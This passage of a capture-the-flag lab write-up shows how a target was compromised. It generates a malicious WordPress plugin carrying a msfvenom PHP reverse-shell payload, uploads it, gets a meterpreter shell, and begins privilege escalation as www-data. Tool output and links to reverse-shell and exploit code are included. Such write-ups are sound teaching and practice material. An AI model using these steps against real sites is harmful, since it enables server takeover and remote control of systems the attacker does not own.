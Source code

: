     root@kali ~/D/T/W/malicious-wordpress-plugin (master)# python wordpwn.py 10.0.0.27 4444 Y
    [*] Checking if msfvenom installed
    [+] msfvenom installed
    [+] Generating plugin script
    [+] Writing plugin script to file
    [+] Generating payload To file
    [-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
    [-] No arch selected, selecting arch: php from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of php/base64
    php/base64 succeeded with size 1503 (iteration=0)
    php/base64 chosen with final size 1503
    Payload size: 1503 bytes

    [+] Writing files to zip
    [+] Cleaning up files
    [+] URL to upload the plugin: http://(target)/wp-admin/plugin-install.php?tab=upload
    [+] How to trigger the reverse shell : 
        ->   http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php
        ->   http://(target)/wp-content/plugins/malicious/QwertyRocks.php
    [+] Launching handler

After adding the malicious plugin we can go to http://10.0.0.12/wp-content/plugins/malicious/wetw0rk_maybe.php and get a meterpreter shell.

![image](https://user-images.githubusercontent.com/76552238/182031255-de788e43-a665-49dc-9ec1-f8fb04acfa23.png)

# 2. Privilege Escalation

    www-data@klim:/home$ ls -l
    total 4
    drwxr-xr-x 4 klim klim 4096 Jul 25  2021 klim

Going to the ***/home*** directory there is a directory for the user **'klim'**.

    www-data@klim:/home/klim$ ls -l
    ls -l
    total 24
    -rwxr-xr-x 1 klim klim 16816 Jul 24  2021 tool
    -rwx------ 1 klim klim    33 Jul 25  2021 user.txt

    www-data@klim:/home/klim$ file tool
    tool: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4fb726006af09fe96ef49dba64a83308076800bc, for GNU/Linux 3.2.0, not stripped


We don't have permission to read the first flag.  

    www-data@klim:/home/klim$ sudo -ll
    Matching Defaults entries for www-data on klim:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin


[1]: "https://linuxcommandlibrary.com/man/wpscan"
[2]: "https://linuxcommandlibrary.com/man/steghide#:~:text=Steghide%20is%20a%20steganography%20program,against%20first%2Dorder%20statistical%20tests."
[3]: "https://www.kali.org/tools/stegcracker/"
[4]: "https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"
[5]: "https://github.com/wetw0rk/malicious-wordpress-plugin"
[6]: "https://www.exploit-db.com/exploits/5720"